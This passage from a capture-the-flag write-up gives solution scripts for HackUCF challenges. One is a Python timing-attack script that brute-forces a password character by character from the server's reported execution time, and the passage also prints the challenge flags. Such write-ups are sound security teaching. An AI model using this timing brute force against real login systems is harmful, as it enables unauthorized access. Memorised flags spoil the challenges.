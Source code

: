 ```python
#print(strings[0].text)
cal = "".join(strings[0].text.split())
result=int(my_eval(*parse(cal)))

data= {'answer':result}
flag = session.post(url,data=data)

print(flag.text)

```

> Flag: **flag{you_should_have_solved_this_in_ruby}**

### bad code
75 points

playing around the web, I notice that everytime we input something, the server return response with the **_executed time_**, maybe we could use this.

since the time changes when we input the right characters, so I write a script to bruteforce this

```python
from requests_html import HTMLSession

url = "http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="

string = 'A B C D E F G H I J K L M N O P Q R S T U V W X Y Z a b c d e f g h i j k l m n o p q r s t u v w x y z 0 1 2 3 4 5 6 7 8 9'
list = string.split(' ')
print(list)
timing = 0.012
while(True):
    for i in range(0,len(list)):
        session = HTMLSession()
        r = session.get(url+list[i])
        time = r.html.find('time')
        print(url+list[i])
        print(time[0].text)
        if(float(time[0].text) > timing):
            print(list[i])
            url+=list[i]
            timing = float(time[0].text) + 0.01
            break
```

> Flag: **flag{i_stole_this_challenge_idea_from_someone_else}**

# Scripting
### Repetition 1
10 points
